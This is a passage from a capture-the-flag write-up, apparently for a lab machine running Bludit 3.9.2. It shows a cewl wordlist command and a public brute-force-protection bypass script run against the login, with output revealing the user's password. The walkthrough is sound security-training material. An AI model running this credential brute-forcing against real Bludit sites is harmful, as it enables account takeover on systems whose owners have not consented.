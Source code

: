 ![wappalyzer](/assets/htb-blunder/wappalyzer.PNG)

Epic, ``Bludit 3.9.2``. A quick google search tells us that this version is insecure as there are multiple vulnerabilities.

The first result on Google is for a ``Authentication Bruteforce Mitigation Bypass`` and that sounds promising as we have a login page and a username.

The next challenge comes in finding the credentials to brute force with. Luckily, I found that someone on a Discord server I frequent tried some of the longer wordlists without any luck, so my options were narrowed down from there. I could try out some of the more obscure seclists, or I could try making a custom wordlist using ``cewl``. I opted for the latter and made a wordlist with all the default options.

`` cewl -w wordlist.txt 10.10.10.191 ``

The exploit script came in ruby, and I was unable to get it to work. Thankfully, someone rewrote the exploit script in Python (https://github.com/musyoka101/Bludit-CMS-Version-3.9.2-Brute-Force-Protection-Bypass-script/tree/master) and it worked wonderfully. 

`` python3 exploit.py 10.10.10.191 fergus wordlist.txt ``

```
[*] Trying: Richard
[*] Trying: Bachman
[*] Trying: written
[*] Trying: approximately
[*] Trying: short
[*] Trying: stories
[*] Trying: collections
[*] Trying: Stoker
[*] Trying: British
[*] Trying: Society
[*] Trying: Foundation
[*] Trying: Distinguished
[*] Trying: Contribution
[*] Trying: Letters
[*] Trying: probably
[*] Trying: fictional
[*] Trying: character
[*] Trying: RolandDeschain

SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```
